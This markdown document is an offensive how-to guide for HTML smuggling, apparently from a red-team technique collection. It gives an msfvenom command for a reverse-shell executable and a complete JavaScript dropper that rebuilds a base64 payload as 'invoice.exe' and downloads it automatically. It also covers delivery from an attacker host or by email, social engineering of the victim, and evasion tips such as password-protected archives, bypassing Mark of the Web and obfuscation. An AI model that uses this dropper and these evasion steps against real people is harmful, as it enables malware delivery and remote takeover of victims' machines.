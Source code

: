 # HTML Smuggling

**Type:** Malicious Documents & File-Based Delivery
**Platform:** Windows, macOS, Linux (target browser-dependent)  
**Prerequisites:** User must click a malicious link or open a crafted HTML file in a browser; JavaScript must be enabled (default)


---
## Overview

**HTML Smuggling** is a browser-based technique that allows an attacker to **assemble and deliver malicious payloads on the client side**, bypassing traditional email and network security filters. Instead of downloading an executable directly from a remote server, the attacker uses JavaScript to reconstruct the payload in memory or in a blob object, and **triggers a download locally via the browser** making the transfer appear "user-generated."

This technique is widely used in malware campaigns like **APT29**, **Nobelium**, and **Emotet** to deliver downloaders, stealers, and RATs.



---
## How It Works

1. The attacker sends a malicious `.html` file or a phishing link.
2. The user opens the file in a browser (usually Edge, Chrome, or Firefox).
3. Embedded JavaScript code **dynamically builds a malicious file** (e.g., `.js`, `.exe`, `.bat`, `.hta`) using `Blob` and `URL.createObjectURL`.
4. A forced browser download is triggered, typically a password-protected `.zip` or `.js` file.
5. The user executes the downloaded file (stage 2), resulting in code execution .

Because the payload is assembled in memory on the client side, **no actual malware ever crosses the network**, evading perimeter detection tools like firewalls, IDS/IPS, or antivirus scanners.


---
## Prerequisites

- Web server or file hosting platform (optional)
- Browser with JavaScript enabled (default in most modern browsers)
- payload ( `.ps1`, `.exe`, `.js`, `.bat`, or `.vbs` ) "stage2"
- Optional: ZIP archiver for delivery (to evade detection)



---
## Steps to Implement

 1. **Generate a Payload (Example: Reverse Shell)**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 -f exe -o payload.exe
```

2. **Convert Payload to Base64**
```bash
base64 -w 0 payload.exe > payload.b64
```

3. **Embed Payload in HTML Smuggling Template**

```html
<!DOCTYPE html>
<html>
<body>
<script>
var b64 = 'BASE64_ENCODED_PAYLOAD_HERE';
var binary = atob(b64);
var len = binary.length;
var bytes = new Uint8Array(len);
for (var i = 0; i < len; i++) {
    bytes[i] = binary.charCodeAt(i);
}
var blob = new Blob([bytes], {type: 'application/octet-stream'});
var link = document.createElement('a');
link.href = window.URL.createObjectURL(blob);
link.download = 'invoice.exe';
link.click();
</script>
<p>If nothing downloads, click <a href="#" onclick="link.click()">here</a>.</p>
</body>
</html>
```


> Replace "BASE64_ENCODED_PAYLOAD_HERE" with the full base64 of your payload ( stage2 ).


<img src="prepare-html-payload.png" >

4. **Host/Deliver the File**

Option 1: Host the file on your web server (e.g., http://attacker.com/delivery.html)

Option 2: Email the HTML file as an attachment

when victim opens the html document it will download our payload ( stage2 ) automatically :
<img src="open-html-payload.png" >



5. **Execution**
once the file is downloaded on the victim machine, wait until the victim execute it manually ( you can use social engineering !)

<img src="extract-downloaded-7z-file.png" > 
victim open stage2 payload ( malware )
<img src="pwnd.png" >



---
## Payload/Code Snippets

- **HTML-Based JS Dropper (Blob + Link) , This is the core of HTML smuggling.**
```html
<!DOCTYPE html>
<html>
<body>
<script>
var b64 = 'BASE64_ENCODED_PAYLOAD_HERE';
var binary = atob(b64);
var len = binary.length;
var bytes = new Uint8Array(len);
for (var i = 0; i < len; i++) {
    bytes[i] = binary.charCodeAt(i);
}
var blob = new Blob([bytes], {type: 'application/octet-stream'});
var link = document.createElement('a');
link.href = window.URL.createObjectURL(blob);
link.download = 'invoice.exe';
link.click();
</script>
<p>If nothing downloads, click <a href="#" onclick="link.click()">here</a>.</p>
</body>
</html>
```


---
## Tips

- Use password-protected ZIP archives to wrap .exe or .js files and bypass email scanning
- Use 7zip files to evade the ( Mark of The Web ) security mechanism
- Deliver .html files via legitimate file-sharing platforms like OneDrive or Google Drive
- Use non-executable file extensions (like .txt) and change them post-download via JavaScript
- Trigger download via `link.click()` inside `<script>` to avoid visible hyperlinks
- Combine with JavaScript obfuscation (e.g., JSFuck or packers) for stealth
 


---
## References

- [MITRE ATT&CK T1027.006: HTML Smuggling](https://attack.mitre.org/techniques/T1027/006/)
- [HTML Smuggling: How Blob URLs are Abused to Deliver Phishing Content](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/html-smuggling-how-blob-urls-are-abused-to-deliver-phishing-content/)
- [HTML smuggling: A Stealthier Approach to Deliver Malware](https://www.cyfirma.com/research/html-smuggling-a-stealthier-approach-to-deliver-malware/)


---

**_Author_** : **o-sec**
